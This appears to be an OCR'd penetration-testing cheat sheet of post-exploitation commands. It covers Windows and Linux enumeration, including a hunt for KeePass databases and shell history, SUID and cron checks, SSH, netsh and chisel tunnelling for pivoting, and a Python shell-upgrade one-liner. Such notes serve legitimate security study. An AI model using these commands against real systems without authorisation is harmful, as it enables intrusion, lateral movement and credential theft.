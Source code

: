 			Get-LocalUser
			Get-LocalGroup
			Get-LocalGroupMember <groupname>
			Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname 
			Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
			Get-Process
			Get-ChildItem -Path C:\ -Include *.kdbx *.txt, *.ini, *.pdf,*.xls,*.xlsx,*.doc,*.docx  -File -Recurse -ErrorAction SilentlyContinue
			Get-History
			(Get-PSReadlineOption).HistorySavePath
	
		Linux:
			id
			hostname
			/etc/issue
			/etc/*-release
			uname -a 
			ps aux
			ifconfig/ip a
			route/routel
			netstat -anp
			/etc/iptables 
			/etc/cron.* 
			/etc/crontab 
			crontab -l
			dpkg -l
			find / -writable -type d 2>/dev/null
			/etc/fstab
			mount
			lsblk
			lsmod
			/sbin/modinfo <module name>
			find / -perm -u=s -type f 2>/dev/null
	
	
	ssh -L 0.0.0.0:<PORT TO>:<REMOTE IP>:<PORT FROM> <username>@<LOCAL IP>
	ssh -D 0.0.0.0:<PROXYCHAINS PORT> <username>@<LOCAL IP>
	ssh -N -R 127.0.0.1:<PORT TO>:<LOCAL IP>:<LOCAL PORT> <ME>@<MY IP>
	ssh -N -R <PROXYCHAINS PORT> <ME>@<MY IP>
	
	sshuttle, dnscat2, chisel
	Windows: ssh,plink,netsh
	netsh interface portproxy add v4tov4 listenport=<MY PORT> listenaddress=<MY IP> connectport=<REMOTE PORT> connectaddress=<REMOTE IP>
	netsh advfirewall firewall add rule name="port_forward_ssh_<MY PORT>" protocol=TCP dir=in localip=<MY IP> localport=<MY PORT> action=allow
	netsh advfirewall firewall delete rule name="port_forward_ssh_<MY PORT>"
	netsh interface portproxy del v4tov4 listenport=<MY PORT> listenaddress=<MY IP>
	
	proxychains config: socks5 <IP> <PORT>
	tcp_read_time_out and tcp_connect_time_out reducing for faster portscan
	
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	